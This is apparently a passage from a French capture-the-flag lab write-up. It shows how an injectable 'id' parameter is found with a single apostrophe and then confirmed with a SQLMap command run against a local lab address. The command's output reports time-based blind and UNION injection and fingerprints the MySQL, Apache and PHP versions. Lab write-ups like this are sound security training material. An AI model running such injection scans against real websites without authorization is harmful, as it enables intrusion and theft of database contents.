 L'insertion d'une seule apostrophe suffit à démontrer la présence d'une [injection SQL](https://www.owasp.org/index.php/SQL_Injection), a minima sur le champ _id_.

![Affichage de l'image CTF4_SQLi1.png](images/CTF4_SQLi1.png)

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, SQLMap vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console

root@blinils:~# sqlmap -u "http://192.168.56.104/index.html?page=blog&title=Blog&id=2"

--snip--
[12:35:46] [INFO] testing connection to the target URL
[12:35:46] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[12:35:46] [INFO] testing if the target URL content is stable
[12:35:46] [INFO] target URL content is stable
--snip--
[12:35:46] [INFO] testing if GET parameter 'title' is dynamic
[12:35:46] [WARNING] GET parameter 'title' does not appear to be dynamic
[12:35:46] [WARNING] heuristic (basic) test shows that GET parameter 'title' might not be injectable
[12:35:46] [INFO] heuristic (XSS) test shows that GET parameter 'title' might be vulnerable to cross-site scripting (XSS) attacks
[12:35:46] [INFO] testing for SQL injection on GET parameter 'title'
--snip--
[12:35:46] [WARNING] GET parameter 'title' does not seem to be injectable
[12:35:46] [INFO] testing if GET parameter 'id' is dynamic
[12:35:46] [INFO] confirming that GET parameter 'id' is dynamic
[12:35:46] [INFO] GET parameter 'id' is dynamic
[12:35:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:35:46] [INFO] testing for SQL injection on GET parameter 'id'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
--snip--
[12:35:46] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[12:35:46] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:35:46] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:35:46] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:35:46] [INFO] target URL appears to have 5 columns in query
[12:35:46] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
--snip--
[12:35:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
```